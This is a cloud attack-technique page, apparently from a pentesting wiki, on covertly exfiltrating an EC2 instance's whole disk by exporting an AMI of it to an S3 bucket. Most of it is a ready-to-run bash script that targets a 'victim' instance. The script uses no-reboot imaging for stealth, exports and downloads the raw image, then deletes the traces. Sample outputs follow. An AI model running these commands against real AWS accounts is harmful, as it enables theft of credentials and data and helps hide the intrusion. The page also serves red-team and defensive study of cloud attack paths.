 # AWS – Covert Disk Exfiltration via AMI Store-to-S3 (CreateStoreImageTask)

## Summary
Abuse EC2 AMI export-to-S3 to exfiltrate the full disk of an EC2 instance as a single raw image stored in S3, then download it out-of-band. This avoids snapshot sharing and produces one object per AMI.

## Requirements
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` on the target instance/AMI
- S3 (same Region): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- KMS decrypt on the key that protects the AMI snapshots (if EBS default encryption is enabled)
- S3 bucket policy that trusts the `vmie.amazonaws.com` service principal (see below)

## Impact
- Full offline acquisition of the instance root disk in S3 without sharing snapshots or copying across accounts.
- Allows stealth forensics on credentials, configuration, and filesystem contents from the exported raw image.

## How to Exfiltrate via AMI Store-to-S3

- Notes:
  - The S3 bucket must be in the same Region as the AMI.
  - In `us-east-1`, `create-bucket` must NOT include `--create-bucket-configuration`.
  - `--no-reboot` creates a crash-consistent image without stopping the instance (stealthier but less consistent).

<details>
**Step\-by\-step commands**

```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
  aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
  aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowVMIEPut",
      "Effect": "Allow",
      "Principal": {"Service": "vmie.amazonaws.com"},
      "Action": [
        "s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
        "s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
      ],
      "Resource": [
        "arn:aws:s3:::$BUCKET",
        "arn:aws:s3:::$BUCKET/*"
      ],
      "Condition": {
        "StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
        "ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
      }
    }
  ]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
  --query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
  aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
    --query StoreImageTaskResults[0].StoreTaskState --output text
  sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
           --query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
  aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```

</details>

## Evidence Example

- `describe-store-image-tasks` transitions:
```text
InProgress
Completed
```

- S3 object metadata (example):
```json
{
  "AcceptRanges": "bytes",
  "LastModified": "2025-10-08T01:31:46+00:00",
  "ContentLength": 399768709,
  "ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
  "ContentType": "application/octet-stream",
  "ServerSideEncryption": "AES256",
  "Metadata": {
    "ami-name": "exfil-1759887010",
    "ami-owner-account": "<account-id>",
    "ami-store-date": "2025-10-08T01:31:45Z"
  }
}
```

- Partial download proves object access:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```

## Required IAM Permissions

- EC2: `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (on export bucket): `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS: If AMI snapshots are encrypted, allow decrypt for the EBS KMS key used by snapshots

